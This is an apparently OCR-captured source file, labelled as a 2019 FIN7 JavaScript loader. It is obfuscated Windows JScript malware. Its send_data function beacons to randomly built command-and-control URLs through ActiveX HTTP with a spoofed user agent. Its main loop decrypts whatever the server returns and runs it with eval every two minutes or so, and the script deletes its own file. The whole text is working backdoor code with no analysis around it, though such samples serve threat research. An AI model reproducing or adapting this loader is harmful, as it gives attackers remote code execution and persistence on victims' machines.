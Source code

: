     function get_path() {
        var pathes = [iwpodhexzubc, kyppaltuwti, cylofalpitx, ihebgysipc, kexerobi];
        var files = [lwilpotasvo, tindajrurke, erzirolonje, bgixmabefzaqnu, ocsekeltan, xaprislyhbulf];
        var path = pathes[Math.floor(Math.random() * pathes.length)] + koficijojhi + files[Math.floor(Math.random() * files.length)];
        return ditevnaqa + path;
    }

    function send_data(type, data, crypt) {
        try {
            var http_object = new ActiveXObject(ejogamygpu);
            if (type === ucmomadgib) {
                http_object.open(inamvagtixjyxj, get_path() + ewypetevhu, false);
                data = bvaxoqwetmodg + crypt_controller(fifuwacdez, vjiwumhojarse + uniq_id + zbegbiwhuhro + id() + inbypzethezag + data);
            } else {
                http_object.open(inamvagtixjyxj, get_path() + cedlihrijalti + uniq_id, false);
                if (crypt) {
                    data = crypt_controller(fifuwacdez, data);
                }
            }
            http_object.setRequestHeader(vivijsozvali, "Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:58.0) Gecko/20100101 Firefox/50.0");
            http_object.setRequestHeader(urmuqizemz, fypalygos);
            http_object.setOption(2, 13056);
            http_object.send(data);
            return http_object.responseText;
        } catch (e) {
            return otocywviso;
        }
    }

    function main() {
        var ncommand = obawufdoxsa;
        ncommand = send_data(ucmomadgib, inoxhegzajw, true);
        if (ncommand !== otocywviso) {
            try {
                eval(crypt_controller(esajigfown, ncommand));
            } catch (e) {}
        }
        var random_knock = 120000 + (Math.floor(Math.random() * 16001) - 5000);
        WScript.Sleep(random_knock);
        main();
    }
    var first = false;
    var shell = new ActiveXObject(bbymyruztovpi);
    var fso = new ActiveXObject(evaritpequx);
    var wmi = GetObject(gqyxqohoftupi);
    var uniq_id = new Date().getUTCMilliseconds();
    var app_path = shell.expandEnvironmentStrings(pidwagunit);
    if (fso.GetFolder(app_path).Type.length > 5) {
        fso.deleteFile(WScript.ScriptFullName);
        try {
            WScript.Sleep(120000);
            main();
        } catch (e) {
            main();
        }
    }
} — 2019-05-13-FIN7-JS-loader.vk.js
